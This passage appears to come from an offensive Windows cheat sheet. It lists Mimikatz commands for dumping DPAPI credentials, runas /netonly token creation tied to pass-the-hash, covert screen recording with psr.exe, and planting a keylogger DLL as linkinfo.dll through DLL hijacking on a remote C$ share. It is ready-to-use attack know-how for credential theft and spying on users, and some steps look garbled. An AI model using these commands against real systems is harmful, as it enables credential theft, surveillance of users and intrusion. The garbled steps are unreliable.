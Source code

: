<span id="anchor-302"></span>MimiKatz Dump DPAPI Creds

<table>
<tbody>
<tr class="odd">
<td><p>privilege::debug</p>
<p>token::elevate</p>
<p>dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\<strong>&lt;credentialfile&gt;</strong></p></td>
</tr>
</tbody>
</table>

<span id="anchor-303"></span>RUNAS to Create Token & Run Process
(Password Known)

|                                                                   |
| ----------------------------------------------------------------- |
| runas /netonly /user:**\<domain\>**\\**\<user\>** **\<command\>** |

**Note:** You will still be recognized as the user your ran the command
as on the local system. Remote systems will see the token you generated.
This is how Pass-the-Hash (PTH)works. This technique can be used to
build the hash needed for a PTH.

<span id="anchor-304"></span>Keylogging & Desktop Monitoring

<span id="anchor-305"></span>Start Recording Screens with Problem Step
Recorder (Must be run with user’s credentials)

|                                                     |
| --------------------------------------------------- |
| psr.exe /start /gui 0 /output **\<ZIP file path\>** |

<span id="anchor-306"></span>Stop Recording Screens with Problem Step
Recorder

|                                                                   |
| ----------------------------------------------------------------- |
| psr.exe /IT /RU **\<domain\>**\\**\<user\>** /RP **\<password\>** |

<span id="anchor-307"></span>Keylogging with DLL Hijacking

Compile a Keylogger as a DLL and place it in the following directory,
then kill and **explorer.exe**:

|                                             |
| ------------------------------------------- |
| \\\\**\<host\>**\\C$\\Windows\\linkinfo.dll |

**Note:** Logging will start once the user clicks the Start button.

<span id="anchor-308"></span>Network Tricks

<span id="anchor-309"></span>Pivot with NETSH
